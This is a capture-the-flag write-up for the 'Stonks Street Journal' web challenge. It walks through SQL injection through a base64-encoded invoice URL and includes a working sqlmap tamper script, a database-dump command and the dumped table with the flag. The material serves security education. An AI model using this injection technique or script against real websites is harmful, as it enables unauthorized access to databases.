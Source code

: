 # Stonks Street Journal

## Solution

After signing up on the website, we can view our invoice. The invoice URL appears to be in the format `/legacy_invoice_system/BASE64_ENCODED_STRING`.

This base64-encoded string decodes to `USERNAME-YEAR-MONTH-DAY`

Adding a `'` to the back of the username yielded an SQL error:

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='zeyu2001'' AND signup_date='2021-11-27...
                                                             ^
```

It appears that the input string is split into the username and signup date, and both are passed into the SQL query without sanitization.

We can use a custom SQLMap tamper script that appends the payload to the back of the signup date, and then base64-encodes the entire input string before passing it into the custom injection point at `GET /legacy_invoice_system/*`

```python
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):

    retVal = base64.b64encode(('zeyu2001-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

Running `sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`, we can dump the database which contains the flag.

```
Database: public
Table: news_article
[4 entries]
+----+---------------------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
| id | text                                              | headline                                                                                                                                              | publish_time                  |
+----+---------------------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
| 1  | My most favourite flag was: CSR{welc0me_0n_b0ard} | Flags are sometimes hard to find, but always beautiful                                                                                                | 2021-11-26 08:33:33.159482+00 |
| 2  | <blank>                                           | Elin [Nordegren] said I was obsessed with golf, but when I started sleeping with other women, that wasn’t good enough either.                         | 2021-11-26 08:33:33.166128+00 |
| 3  | <blank>                                           | Struggling to stay on their feet as they stood outside their assigned polling place, the nine members of the U.S. Supreme Court reportedly            | 2021-11-26 08:33:33.16646+00  |
| 4  | <blank>                                           | Former U.S. secretary of defense Donald Rumsfeld passed away Wednesday at 88 years old, sources confirmed, and is survived by 1 million fewer Iraqis. | 2021-11-26 08:33:33.166761+00 |
+----+---------------------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
```

